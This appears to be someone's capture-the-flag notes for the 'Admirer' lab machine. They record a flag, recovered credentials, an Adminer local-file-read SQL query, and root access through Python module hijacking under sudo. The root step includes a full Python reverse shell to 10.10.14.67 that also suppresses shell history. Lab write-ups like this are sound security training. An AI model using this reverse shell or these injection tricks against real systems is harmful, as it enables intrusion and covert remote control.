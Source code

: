 # Basic
```
* Name: Admirer
* IP: `export IP=10.10.10.187`
* Box: Linux 
* Level: Easy
* Released: 02-May-2020
```

# Flags
```
* User:178fcc965a72ac0ff14bdc302460ca23
* Root:
```

# Creds

``` * waldo : &<h5b~yK3F#{PaPB&dA}{H> ```

# User exploit

  ## Ports

  ```
  * 21 vsftpd 3.0.3
  * 22 openssh
  * 80 apache 2.4.35 ( No exploit )
  ```

  ## Web site

  ```
  * Found admin-dir in robots.txt
  * Found credentials.txt, contacts.txt in admin-dir
  * Logged into ftp using credentials found in the file.
  ```

  ## Ftp

  ```
  * Found dump.sql
  * Found html tar file
      * Database: admirerdb
      * Database: Mariadb
      * admin_tasks.php ( Can execute shell command from this) INTERESTING
      
  ```

  ## Usernames

  ```
  * waldo

  ```

  ## Fuzzing
  ```
  * /utility-scripts/adminer.php
  * https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool ( Exploit )
  
  ```
  ## Exploiting
  ```
  * Start a mysql database locally
  * Connect to it using adminer.php 
  * Run this command using sql command:
    `load data local infile /var/www/html/index.php
    into table test
    fields terminated by "\n"`
  * Found creds to db
  ```


# Root Exploit

  ## Linpeas
  ```
  /opt/scripts/backup.py is being run by root 
  ```
  
  # Exploit
  ```
  Python module injection

  Code:
  `import os
    import pty
    import socket

    def make_archive(a,b,c):
            pass

    lhost = "10.10.14.67"
    lport = 4444

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((lhost, lport))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    os.putenv("HISTFILE",'/dev/null')
    pty.spawn("/bin/bash")
    s.close()`
  ```

  # Sudo environment variable injection
  ```
  sudo PYTHONPATH=/tmp/test /opt/scripts/admin
  ```